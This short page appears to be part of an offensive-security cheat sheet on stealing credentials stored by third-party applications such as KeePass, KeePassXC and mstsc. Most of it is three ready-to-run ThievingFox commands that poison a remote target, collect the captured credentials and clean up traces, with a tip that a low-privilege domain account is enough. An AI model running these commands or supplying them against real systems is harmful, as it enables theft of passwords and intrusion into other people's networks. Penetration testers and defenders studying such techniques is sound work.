 # Credentials in Third-Party Software

Many applications present on a computer can store credentials, like KeePass, KeePassXC, mstsc and so on.

    python3 client/ThievingFox.py poison --all domain.local/user1:password@<target>
    python3 client/ThievingFox.py collect --all domain.local/user1:password@<target>
    python3 client/ThievingFox.py cleanup --all domain.local/user1:password@<target>

## TIP: It may be used with a low privilege user as well
